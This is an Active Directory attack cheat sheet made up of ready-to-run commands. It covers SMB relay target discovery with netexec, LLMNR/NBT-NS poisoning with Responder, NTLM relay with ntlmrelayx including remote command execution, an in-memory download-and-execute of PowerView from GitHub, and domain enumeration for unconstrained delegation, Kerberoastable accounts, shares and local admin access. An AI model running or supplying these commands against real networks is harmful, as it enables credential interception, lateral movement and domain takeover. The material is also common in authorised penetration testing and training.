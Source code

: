 ## Check for SMB relay opportunities
```bash
netexec smb 10.10.10.0/24 --gen-relay-list relay_targets.txt
```

## Run Responder for LLMNR/NBT-NS poisoning
```bash
responder -I eth0 -wrf
```

## Setup ntlmrelayx for SMB relay attacks
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```

## Download PowerView on Windows target
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
```

## Enumerate domain with PowerView
```powershell
Get-Domain
Get-DomainController
Get-DomainUser
Get-DomainGroup
Get-DomainComputer
```

## Find computers with unconstrained delegation
```powershell
Get-DomainComputer -Unconstrained
```

## Find users with SPN for Kerberoasting
```powershell
Get-DomainUser -SPN
```

## Find domain shares accessible by current user
```powershell
Find-DomainShare -CheckShareAccess
```

## Find local admin access on domain computers
```powershell
Find-LocalAdminAccess
Test-AdminAccess
```
